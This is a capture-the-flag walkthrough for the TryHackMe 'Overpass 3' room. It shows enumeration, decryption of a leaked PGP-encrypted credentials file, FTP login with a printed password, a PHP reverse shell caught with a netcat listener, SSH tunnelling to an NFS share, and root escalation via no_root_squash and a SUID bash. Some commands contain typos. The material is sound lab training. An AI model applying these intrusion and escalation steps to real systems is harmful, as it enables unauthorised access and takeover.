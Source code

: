 ```
Room: https://tryhackme.com/room/overpass3hosting
Style: Unguided
Difficulty: Medium
```
1. Run nmap

2. Run Gobuster
we find an interesting folder called Backup. We download, unzip and inspect the files
```
unzip backup.zip
└─$ file priv.key4
priv.key: PGP private key block

└─$ file CustomerDetails.xlsx.gpg
CustomerDetails.xlsx.gpg: PGP RSA encrypted session key - keyid: 9E86A1C6 3FB96335 RSA (Encrypt or Sign) 2048b .
```

Here we find a Pretty Good Privacy (PGP) encrypted file, but luckily it also includes the private key. To be able to decrypt it, we first have to import the Private key into our GPG (OpenPGP encryption and signing tool).

```
gpg --import ./priv.key
pgp --decrypt CustomerDetails.xlsx.pgp > details.xlsx
```

Now we have a decrypted excel file, lets see if LibreOffice can open this file.

``libreoffice details.xslx``

Here we find some usernames and passwords, lets see what we can do with those.

We can login to the FTP using the "paradox" user, password: ShibesAreGreat123

Put doesnt seem to work, however mput allows me to upload files;

so we prepare a php reverse shell, and open a socket for us to receive the shell:

``rlwrap nc -lvnp 4444``

We open the file directly and voilla, we have a shell on the machine!

I ran linpeas, this is the most interesting snippet ;
``/home/james *(rw,fsid=0,sync,no_root_squash,insecure)no``

With the FTP password for paradox, we try to pivot to his user. This seems to work!

From here i added my own ssh pub key to the authorized_keys list and opened a normal ssh session.
    ~~INSERT HOWTO~~

After that i could SSH into the machine, i would think back to that possible NFS mount we saw linpeas report earlier;
``/home/james *(rw,fsid=0,sync,no_root_squash,insecure)no``

Trying to mount this on my local machine failed, because port 2049 was filtered so not accesible on the outside.
Since we do have an SSH connection, why not make a SSH tunnel and mount through that?

To setup an SSH tunnel, i used this command:
``ssh -fNv4 -L 3049:10.10.177.2:2049 paradox@10.10.177.2``

after we've completedly setup the tunnel lets try to mount this thing locally. Since we dont have access to port 111, we will have to force NFSv4 because all the others require the portmapper service.

```
sudo mount -t nfs 127.0.0.1:/ /tmp/nfs/  --verbose -o port=3049,vers=4.1
###note that without ,vers=4.1 it did not work, even when calling nfs4.
```

Took me a while to figure out you were not supposed to add /home/james to the folder but use the base of the share, which is already /home/james/.
Eventually we mounted the /home/james folder on our local machine through the SSH tunnel, which is pretty neat.

this shows us user.txt for james, and we can answer question #2

Now since no_root_squash is enabled, we can upload a bash binary owned by `root` with the suid set so it will also execute as root when copied onto the nfs mount.

``./bash -p ``

Gives us a Root bash and we can read /root/root.flag and finish the challenge.
